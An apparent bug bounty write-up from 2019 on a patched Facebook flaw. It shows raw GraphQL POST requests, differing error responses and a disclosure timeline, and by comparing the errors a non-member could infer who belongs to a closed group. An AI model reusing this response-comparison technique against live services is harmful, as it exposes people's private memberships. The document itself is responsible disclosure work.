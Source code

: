 ```yaml
---
title:  "Disclose members in any Groups."
date:   2019-11-24 12:24:15 +0800
categories: Hacking
classes:
  - landing
header:
  teaser: /assets/img/Facebook.jpg
---
```


I find that any non-member being maybe to disclose members in any closed Facebook group.

## POC / Reprosteps

User A ( In closed group (C) )
User B (non-member)

Poll question.

questionID":"2998452380182679" (Group C) -> user A


```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER A","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response

```
"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,
```

Now repeat step 1 replace member ->  non-members

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER B","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response

As opposed to a user who does not have a member 

``` 

"api_error_code": 200,
"summary": "Insufficient Permission",
"description": "You do not have the necessary permission for the specified Page to perform the requested action.",
"is_silent": false,

```
Replace a member in the group 
USER C ( in closed group )

```
POST /api/graphql/ HTTP/1.1
Host: www.facebook.com

variables={"actorID":"USER C","first":5,"questionID":"2998452380182679"}&doc_id=2507703069268152

```
Response


```

"severity": "CRITICAL",
         "code": 1675030,
         "api_error_code": -1,
         "summary": "Query error",
         "description": "Error performing query.",
         "is_silent": false,
         "is_transient": false,
         "requires_reauth": false,

```
member is known based on the difference in responses as well as being explicitly stated in the error message.

## Impact

This could potentially let an attacker infer whether a user has a member on a specific group.

## Timeline

13/09/2019: Report Sent
15/09/2019: Confirmation of reproduce by Facebook
19/09/2019: Further Investigation By Facebook
21/09/2019: Patched By Facebook
21/09/2019: Confirmation of patch by Facebook
03/11/2019: $3000 bounty awarded by Facebook


